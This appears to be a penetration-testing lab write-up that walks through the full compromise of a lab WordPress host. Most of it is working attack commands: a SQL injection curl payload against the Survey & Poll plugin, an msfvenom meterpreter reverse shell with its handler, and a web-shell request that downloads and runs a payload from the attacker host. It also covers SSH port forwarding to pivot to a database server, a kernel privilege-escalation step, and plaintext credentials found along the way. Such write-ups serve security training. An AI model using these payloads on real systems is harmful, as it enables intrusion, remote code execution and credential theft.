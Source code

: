 # aijla (10.4.4.10)
***
> [!info] 
> The initial target is a wordpress site `http://sandbox.local` which points to an external IP `10.11.1.250`.   

## Enumeration
1. We scanned the target using `wpscan`
```
wpscan --url http://sandbox.local --enumerate ap,at,cb,dbe
```

2. `wpscan` was able to detect several plugins installed but the most interesting one is the plugin named `WordPress Survey & Poll`. Checking on its [readme.txt](http://sandbox.local/wp-content/plugins/wp-survey-and-poll/readme.txt) suggest that the current version might be `1.5.7.3`

![[wpsandbox-changelog.png]]

> [!info] 
> Before **Wordpress 5.8**, almost all plugins have a `readme.txt`. The `readme.txt` file is intended to be written using a subset of markdown and usually readable publicly (as it is a text file). 

3. Using `searchploit`, we are able to know that the current version is vulnerable to SQL Injection   
![[wpsandbox-sqli.png]]

***
## Exploit
1. Using the proof of concept from [EDB-45411](https://www.exploit-db.com/exploits/45411), we we're able to extract the Wordpress Admin's **username** and **password hash**.

```
curl -i -s -k -X $'GET' -b $'wp_sap=[\"1650149780\')) OR 1=1 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,(SELECT concat(user_login,\':\',user_pass) from wp_users),11#\"]' $'http://sandbox.local/' | grep "var sss_params"
```

![[wpsandbox-ssparam.png]]


```
Username: wp_ajla_admin
Hash: $P$BfBIi66MsPQgzmvYsUzwjc5vSx9L6i/
```   
2. Using **John the Ripper (JtR)**, we are able to extract the plaintext `?:!love29jan2006!`
   
![[wpsandbox-jtr.png]]
   
3. Using the credentials, we are able to login to the **Wordpress Admin Dashboard** and was able to upload our web shell as Wordpress plugin.   
   
4. We generated a meterpreter shell that creates a connection on our port **443**
   
```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=KALI_IP LPORT=443 -f elf -o xshell.elf
```

```
sudo msfconsole -q -x "use multi/handler; set payload linux/x64/meterpreter/reverse_tcp; set lhost KALI_IP; set lport 443; exploit"
```

5. Using our web shell, we uploaded and executed our meterpreter shell on the server
```
curl -i -s -k -X $'GET' $'http://sandbox.local/wp-content/plugins/xshell/xshell.php?cmd=wget+http://KALI_IP/xshell.elf+%26%26+chmod+%2bx+xshell.elf+%26%26+./xshell.elf'
```

6. Using our meterpreter shell, we are able to execute OS commands on the server.   
   ![[ajla-meterpreter.png]]

7. We are able to read `wp-config.php` and retrieved the information of database used by Wordpress. The database has the IP `10.5.5.11`

```
DB name: wordpress
User: wp
Password: Lv9EVQq86cfi8ioWsqFUQyU
Host: 10.5.5.11
```

> [!todo] 
>  We discovered a connection to the database with an IP `10.5.5.11`. But this database server is not accessible externally, that means we need to set up a remote port forwarding to be able to access it from our Kali machine. 

8. From our shell, we generated a keypair using `ssh-keygen` and added the victim's public key into our Kali machine(authorized_keys) using the following settings:
   
```
from="10.11.1.250",command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-X11-forwarding,no-pty ssh-rsa AAAAB3Nz....IQv www-data@ajla
```
   

9. We set up a remote port forward from ajla to expose port **22** and port **3306** of zora to Kali. We used port **1122** of Kali to point to port **22** of zora, and used **13306** of Kali to point to port **3306** of zora.

 ``` 
ssh -f -N -R 1122:10.5.5.11:22 -R 13306:10.5.5.11:3306 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /tmp/keys/id_rsa kali@KALI_IP
```

9. Using the retrieved credentials, we tried to connect to the database (**MariaDB**) server and attempted to execute OS commands. Unfortunately (for us), the user (`wp`) doesn't have enough privilege for us to be able to execute OS commands.
   
```
mysql --host=127.0.0.1 --port=13306 --user=wp -pLv9EVQq86cfi8ioWsqFUQyU
```
 
## Post-exploitation

1. Using our reverse shell, we did further enumeration and found out that the server is using an outdated Linux kernel
![[ajla-uname.png]]

2. We searched for reported vulnerabilities for that version and we found the Local Privilege Escalation exploit [EDB-45010](https://www.exploit-db.com/exploits/45010)
3. We compiled the exploit and transferred it into the target server. 
3. We executed the exploit on the server and we got a root access.
   ![[ajla-root.png]]
4. We accessed the file  `/root/.bash_history` and we got a credentials for mysql root user (for `10.5.5.11`)
```
user: root
password: BmDu9xUHKe3fZi3Z7RdMBeb
host: 10.5.5.11
```

![[ajla-root-proof.png]]
